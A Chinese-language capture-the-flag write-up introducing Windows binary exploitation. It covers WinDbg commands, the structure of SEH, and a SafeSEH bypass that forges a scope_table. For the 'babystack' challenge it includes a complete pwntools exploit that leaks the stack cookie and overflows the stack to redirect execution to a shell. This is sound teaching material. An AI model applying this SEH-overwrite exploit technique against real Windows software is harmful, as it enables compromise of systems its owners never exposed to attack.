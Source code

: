# Window Pwn 入门

## Windbg tips

* `lm`: 查看模块信息
```
> lm
tart    end        module name
00a00000 00a07000   babystack   (no symbols)           
69090000 690a4000   VCRUNTIME140   (deferred)             
75240000 75320000   KERNEL32   (deferred)             
75940000 75a62000   ucrtbase   (deferred)             
76d10000 76f09000   KERNELBASE   (deferred)             
776e0000 7787c000   ntdll      (pdb symbols)          c:\mysymbol\wntdll.pdb\F9EA7A7F41206C21D2ED4E99993A9EF41\wntdll.pdb
```

* `k`: 显示调用栈
```
> k
 # ChildEBP RetAddr  
00 02b6f87c 7778b3c9 ntdll!DbgBreakPoint
01 02b6f8ac 75260419 ntdll!DbgUiRemoteBreakin+0x39
02 02b6f8bc 7774662d KERNEL32!BaseThreadInitThunk+0x19
03 02b6f918 777465fd ntdll!__RtlUserThreadStart+0x2f
04 02b6f928 00000000 ntdll!_RtlUserThreadStart+0x1b
```

* `!threads, .thread, !process, .process`: 显示进程线程信息

* `d`: 读取内存
* `du`: 读取字符串
* `dd, dc`

* `bp addr`: 下断点

* `bl`: 查看已下的断点

* `!exchain`: Exception handler

* `d fs:[0]`: 查看当前SEH的起始位置，或者用`!teb`查看。

* `dps $csp, dps @esp`: 看栈数据

* `r`: 查看寄存器

* `dt _NT_TIB 0x99f8e4`: 按类型查看

* `!teb`: thread environment block

## SEH(Structured Exception Handler) & SafeSEH

### Babystack
### 题目分析
首先确认下PE32栈布局
```
ebp ^ cookie            ebp-0x1c
esp                     ebp-0x18
xxxx                    ebp-0x14
Exception_List          ebp-0x10
handler                 ebp-0xc
scope_table ^ cookie    ebp-0x8
trylevel                ebp-0x4
original_ebp            ebp
Retaddr                 ebp+0x4
```
在没有SafeSEH的情况下，简单修改handler就可以控住pc。
但开启了SafeSEH后，触发exception时会检查handler是否在_safe_se_handler_table中。

在开启了SafeSEH后，一种bypass方法是伪造scope_table。

下面简单介绍一下scope_table的结构:
```
struct _EH4_SCOPETABLE {
        DWORD GSCookieOffset;
        DWORD GSCookieXOROffset;
        DWORD EHCookieOffset;
        DWORD EHCookieXOROffset;
        _EH4_SCOPETABLE_RECORD ScopeRecord[1];
};

struct _EH4_SCOPETABLE_RECORD {
        DWORD EnclosingLevel;
        long (*FilterFunc)();
            union {
            void (*HandlerAddress)();
            void (*FinallyFunc)(); 
    };
};
```

我们比较想控住的是其中的FilterFunc或FinallyFunc。

本题目中送了codebase和stack addr。故可以在栈上伪造一个fake scope_table，再把`[ebp-0x4]`处的值设置为`fake_scope_table ^ cookie`。

但不难发现，利用stack overflow修改`[ebp-0x4]`时，会覆盖掉一些敏感的值，比如`ebp ^ cookie`, `Exception_List`, `handler`。所以在exploit时，要先确保这些值可以过check。

`handler`的话可以用windbg attach上去看看`!exchain`，即`the list of exception handlers for the current thread`。`Exception_List`的话可以用`d fs:[0]`或者`!teb`查看。

### 题目EXP
```
from pwn import *
if args['DEBUG']:
    context.log_level = "debug"

conn = remote("192.168.234.1", 10009)

conn.recvuntil("stack address = ")
leak_stack = int(conn.recvuntil("\r\n", drop=True),16)
print '[stack]: ' + hex(leak_stack)
conn.recvuntil("main address = ")
leak_main = int(conn.recvuntil("\r\n", drop=True), 16)
print '[main]: ' + hex(leak_main)

ebp = leak_stack + 0x9c
cookie_addr = leak_main + (0x404004-0x4010b0)

fs_0_addr = leak_stack + 0x9c - 0x10 #ebp-0x10
handler = leak_stack + 0x9c - 0xc #ebp-0xc

#leak info
conn.sendlineafter("more?\r\n", "yes")
conn.sendlineafter("know\r\n", str(cookie_addr))
conn.recvuntil("value is ")
cookie_val = int(conn.recvuntil("\r\n", drop=True),16)
print '[cookie]: ' + hex(cookie_val)

conn.sendlineafter("more?\r\n", "yes")
conn.sendlineafter("know\r\n", str(fs_0_addr))
conn.recvuntil("value is ")
fs_0_val = int(conn.recvuntil("\r\n", drop=True), 16)
print '[fs_0]: ' + hex(fs_0_val)

#fake scope_table
shell_addr = leak_main + (0x40138d - 0x4010b0)
fake_scope_table = p32(0xFFFFFFE4) #GSCookieOffset
fake_scope_table += p32(0) #GSCookieXOROffset
fake_scope_table += p32(0xFFFFFF20) #EHCookieOffset
fake_scope_table += p32(0) #EHCookieXOROffset
fake_scope_table += p32(0xFFFFFFFE) #ScopeRecord.EnclosingLevel
fake_scope_table += p32(shell_addr) #ScopeRecord.FilterFunc
fake_scope_table += p32(shell_addr) #ScopeRecord.HandlerFunc

#first 4*'a' as padding
payload = 'a'*4 + fake_scope_table.ljust(0x80-4, '\x00') + p32(ebp ^ cookie_val) + 'a'*8 + p32(fs_0_val) + p32(leak_main+0x401460-0x4010b0) + p32((leak_stack+4)^cookie_val)+p32(0)
conn.sendlineafter("more?\r\n", 'djr')
conn.sendline(payload)

conn.sendlineafter("more?\r\n", 'yes')
conn.sendlineafter("know\r\n", str(0))

conn.interactive()

```

### 参考
[1] http://radishes.top/2019/10/07/2019-10-09-SEH%E7%9A%84%E6%A6%82%E5%BF%B5%E5%8F%8A%E5%9F%BA%E6%9C%AC%E7%9F%A5%E8%AF%86/#1-TIB%E7%BB%93%E6%9E%84
[2] https://github.com/Ex-Origin/win_server 










